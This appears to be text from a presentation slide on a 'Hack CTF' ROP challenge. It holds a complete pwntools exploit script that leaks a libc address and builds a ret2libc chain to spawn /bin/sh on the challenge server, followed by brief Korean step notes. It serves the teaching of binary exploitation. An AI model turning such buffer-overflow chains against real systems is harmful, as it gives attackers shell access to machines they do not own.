

PoC WAR GAME

from pwn import *
host = "ctf.j0n9hyun.xyz"
port = 3021
p = remote(host, port)
e = ELF("./rop")
libc = ELF("./libc.so.6")
read_got = 0x804a00c
write_plt = 0x8048340
write_got = 0x804a018
vuln = 0x804844B
pop3ret = 0x8048509
popret = 0x80482f1
one_gadget = [0x3a80c, 0x3a80e, 0x3a812, 0x3a819, 0x5f065, 0x5f066]
payload = "A" * 136
payload += "B" * 4
# write(1, write@got, 8)
payload += p32(write_plt)
payload += p32(pop3ret)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)
payload += p32(vuln)
p.sendline(payload)
read_addr = u32(p.recv(4))
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base+list(libc.search("/bin/sh"))[0]
log.info("read_addr : " + hex(read_addr))
log.info("libc_base   : " + hex(libc_base))
log.info("system_addr : " + hex(system_addr))
log.info("binsh_addr  : " + hex(binsh))
oneshot = libc_base + one_gadget[0]
payload = "A" * 140
payload += p32(system_addr)
payload += p32(popret)
payload += p32(binsh)
p.sendline(payload)
p.interactive()
Hack CTF - ROP
read@got 값 출력
libc base 구하기
system 주소 구하기
binsh 주소 구하기 (없으면 bss영역에 넣기)
pwn